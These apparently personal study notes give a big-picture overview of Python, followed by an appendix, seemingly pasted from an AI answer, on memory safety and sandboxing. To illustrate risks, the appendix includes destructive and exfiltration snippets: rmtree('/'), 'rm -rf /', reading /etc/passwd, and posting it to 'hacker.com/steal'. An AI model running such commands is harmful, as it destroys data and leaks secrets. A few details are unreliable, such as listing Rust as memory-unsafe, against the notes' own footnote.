



# Python3: The big picture

## Why python

### Simple to use

- Only one way to do things vs a large toolbox of building things without any instructions and strong flexibility.
- Focus on simplicity.

### Great community

### Widely used

- Web development
- Data science
- Education and learning
- Scripting

### Web development

1. API (server end)
   - Flash
   - Fast API
   - Bottle

2. Website
   - Django
   - TurboGears
   - web2py

3. App (CMS, ERP)
   - Django CMS
   - WagTail
   - Mezzanine

### Data science

1. Big data
2. Machine learning

### Scripting

1. Machine scripting (administration of machine)
   - Deal with folders and files
   - Configuration of apps and services
   - Monitor the processes running on a system
   - Deploy a new application, remove old application

   Many existing library out there to be used.

2. Application scripting

## What is python

With the following characteristics, python is a very flexible language.

### Python syntax


- semicolon
- curly brackets
- Beautiful is better than ugly
- Readability counts
- **Indent: Significant whitespace**

### General-purpose and high level

### Multi-paradigm

- Structured programming


- Object oriented programming
- Functional programming


### Python is interpreted

But python can be compiled

### Python is a garbage-collected

### Python is dynamically-typed


Static type is more type safe. We can avoid type issues at compile time.





Python allows to pass any object into a function as long as it behaves the way the function expects and needs it to.

We can easily extend our code in the future or even have easier integration with third-party code that may not be able to implement the exact types that we would otherwise need.

### Python pros and cons

1. Pros
   - Comprehensive standard library: python's standard library is already very rich that you barely need 3rd party libraries.
   - Community driven: PEP is the python enhancement proposals where you can see the discussions and concerns.
   - 3rd party libraries: pypi is the python package index; pip that is installed in many python distributions is the python install manager.
   - 3rd party tools: IDE: Pycharm, VS code; Coding style; Application performance tuning.
   

2. Cons
   - Interpreted: slow  ==> Compilation
   - Not native: high memory usage, lack of native security, sandbox. ==> Python
   - Dynamic: Runtime errors difficult to diagnose  ==> Optional Typing

## Appendix

Excellent questions! These are fundamental concepts in computer security, and understanding the distinction is crucial, especially when comparing Python to languages like Java, C#, or JavaScript.

### 1. What is "Native Security" (Memory Safety)

"Native security" or **memory safety** refers to a language's built-in protection against memory corruption errors. This is primarily a concern for languages that allow direct memory manipulation.

#### Memory-Safe vs. Memory-Unsafe Languages

| Feature | Memory-Safe Languages (Python, Java, C#, JavaScript) | Memory-Unsafe Languages (C, C++, Rust*) |
|---------|-----------------------------------------------------|---------------------------------------|
| **Memory Access** | Automatic memory management | Direct pointer manipulation |
| **Buffer Overflows** | Impossible by design | Common vulnerability source |
| **Use-After-Free** | Prevented by garbage collection | Frequent security issue |
| **Null Pointer Dereference** | Handled with exceptions | Causes segmentation faults |

*Rust is memory-safe by design but allows unsafe operations when explicitly requested.

#### Python's Memory Safety (A Strength)

```python
# Python prevents these common C/C++ vulnerabilities automatically:

# 1. Buffer Overflow - IMPOSSIBLE in pure Python
buffer = [0] * 10
buffer[15] = 1  # ✅ Raises IndexError, never corrupts adjacent memory

# 2. Use-After-Free - IMPOSSIBLE due to garbage collection
def create_object():
    obj = {"data": "sensitive"}
    return obj

my_obj = create_object()
# The original 'obj' is automatically managed by GC
# No risk of accessing freed memory

# 3. Null Pointer Dereference - HANDLED gracefully
data = None
print(data.length)  # ✅ Raises AttributeError, not a crash
```

**So when we say Python lacks "native security," we DON'T mean memory safety—Python is excellent at that!**

### 2. What is a Sandbox?

A **sandbox** is a restricted execution environment that limits what code can do. It's like a playground with safety rules:

```
┌─────────────────────────────────┐
│         SANDBOXED CODE          │
│   ┌─────────────────────────┐   │
│   │  Untrusted Python Code   │   │
│   │  - Can do calculations   │   │
│   │  - Can't access files    │   │
│   │  - Can't make network     │   │
│   │    calls                 │   │
│   └─────────────────────────┘   │
└─────────────────────────────────┘
         ↓
┌─────────────────────────────────┐
│        HOST ENVIRONMENT         │
│   Full system access            │
└─────────────────────────────────┘
```

#### Python's Sandboxing Problem

**Python was NOT designed as a sandboxed language.** Unlike JavaScript in browsers, Python scripts typically run with the same permissions as the user who executes them.

```python
# A malicious Python script can do enormous damage:
import os
import shutil

# Delete entire filesystem
shutil.rmtree('/')  # 💀 This would actually work!

# Access sensitive files
with open('/etc/passwd', 'r') as f:
    steal_passwords = f.read()

# Make network calls to exfiltrate data
import requests
requests.post('http://hacker.com/steal', data=steal_passwords)

# Install malicious packages
os.system('pip install malicious-package')
```

### 3. Comparison with Natively Sandboxed Languages

#### JavaScript in Browsers (Excellent Sandbox)

```javascript
// In a web browser, JavaScript is heavily restricted:

// ❌ CANNOT access filesystem
fetch('file:///etc/passwd')  // Blocked by browser

// ❌ CANNOT execute system commands
exec('rm -rf /')  // Not even available in browser JS

// ❌ CANNOT make arbitrary network requests
// (Subject to CORS policies)

// ✅ CAN only manipulate the current web page
document.getElementById('content').innerHTML = 'Safe';
```

#### Python's Lack of Built-in Sandbox

```python
# Python has no equivalent to browser JavaScript's sandbox
# This code runs with full user permissions:

import subprocess
subprocess.run(['rm', '-rf', '/'])  # 💀 Actually executes!

# The ONLY "sandboxing" is what the OS provides
# (file permissions, user privileges)
```

### 4. Attempts to Sandbox Python (And Their Limitations)

#### Attempt 1: Restricted Python (`restrictedpython`)

```python
# Third-party solution with limitations
from RestrictedPython import compile_restricted

code = """
result = 1 + 1  # ✅ Basic math allowed
# import os     # ❌ Import statements blocked
# open('/etc/passwd')  # ❌ File access blocked
"""

try:
    bytecode = compile_restricted(code, '<string>', 'exec')
    exec(bytecode)
except ImportError:
    print("Import blocked - partial sandboxing")
```

#### Attempt 2: Docker Containers (Recommended Solution)

```dockerfile
# Dockerfile
FROM python:3.11-slim

# Run as non-root user
RUN useradd -m appuser
USER appuser

# Copy ONLY the application code
COPY app.py /home/appuser/
WORKDIR /home/appuser

# Run with limited capabilities
CMD ["python", "app.py"]
```

```bash
# Run with additional restrictions
docker run --read-only \
           --network none \
           --memory 512m \
           my-python-app
```

#### Attempt 4: System-Level Sandboxing

```bash
# Run Python with reduced privileges
# Linux: use namespaces and seccomp
sudo systemd-run --user \
    --property=RestrictAddressFamilies=AF_UNIX \
    --property=RestrictNamespaces=yes \
    --property=SystemCallFilter=@basic-io \
    python untrusted_script.py

# This is complex and system-specific
```

### 5. Real-World Implications

#### Safe Use Cases for Python

```python
# ✅ Trusted environments
- Your own scripts on your machine
- Server applications you control  
- CI/CD pipelines in your infrastructure
- Scientific computing on secure clusters
```

#### Risky Use Cases for Python

```python
# ❌ Untrusted code execution
- User-provided scripts in web applications
- Plugin systems for untrusted developers
- Code execution in multi-tenant platforms
- Running downloaded scripts without review
```

#### Better Alternatives for Untrusted Code

```python
# Use JavaScript in Node.js with vm2
const { VM } = require('vm2');
const vm = new VM({
    timeout: 1000,
    sandbox: { /* limited access */ }
});

# Or WebAssembly (WASM) for complete isolation
# Or separate microservices with strict API boundaries
```

## 6. Summary

| Aspect | Python's Situation | Recommendation |
|--------|-------------------|----------------|
| **Memory Safety** | ✅ Excellent (garbage collected, bounds checking) | Not a concern |
| **Sandboxing** | ❌ Poor (no built-in isolation) | Use Docker, VMs, or alternative languages |
| **Security Model** | 🔐 OS/user-level permissions only | Principle of least privilege |

**Bottom line**: Python is **memory-safe** but not **sandboxed**. For running untrusted code, you should use containerization (Docker) or choose a language designed for sandboxing (JavaScript, WebAssembly).

The "native security" concern is really about the **execution environment isolation**, not memory corruption vulnerabilities. Python assumes you trust the code you're running, unlike browser JavaScript which assumes you don't trust the websites you visit.
